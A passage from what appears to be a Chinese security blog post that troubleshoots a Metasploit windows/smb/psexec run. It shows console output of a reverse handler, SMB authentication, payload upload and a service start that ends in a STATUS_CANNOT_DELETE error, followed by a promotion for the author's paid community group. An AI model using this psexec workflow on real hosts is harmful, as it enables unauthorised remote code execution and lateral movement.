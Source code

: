 ### (24) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_CANNOT\_DELETE (Command=6 WordCount=0)

```
msf exploit(windows/smb/psexec) > exploit
\[\*\] Started reverse handler on 192.168.1.120:4444 
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...
\[\*\] Uploading payload...
\[\*\] Created \\ilIfTitm.exe...
\[+\] 192.168.1.103:445 - Service started successfully...
\[\*\] Deleting \\ilIfTitm.exe...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_CANNOT\_DELETE (Command=6 WordCount=0)
```

借这次知识星球的官方活动推下我的个人星球，里边没有干货文章，也没有各种 0day/Exp，只有自己的临时笔记和优质资源分享，考虑好后再决定是否加入！！！  

 **星球活动：**

1.  20 张 30 元 “潇湘信安” 优惠券，与知识星球官方活动一起 “食用” 更佳！（潇湘信安活动）
    
2.  新用户和续费用户均可享受手续费最高 10% 补贴，额度有限，先到先得！（知识星球活动）
    

 **活动时间：**2020 年 11 月 6 日 0 点 - 14 日 24 点（9 天）

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfqE3rrpOMO9arvGibmJOjnU5RM0vNic03SLkqb37ticH3NAiauaSluzpx882lAeHyiadzTWxglclPIATg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRgjicUHG1ssz8JfRYaI9HSKjVfEfibFkKzsJPZ4GCaiaymLRrmXjRqD8ag/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)
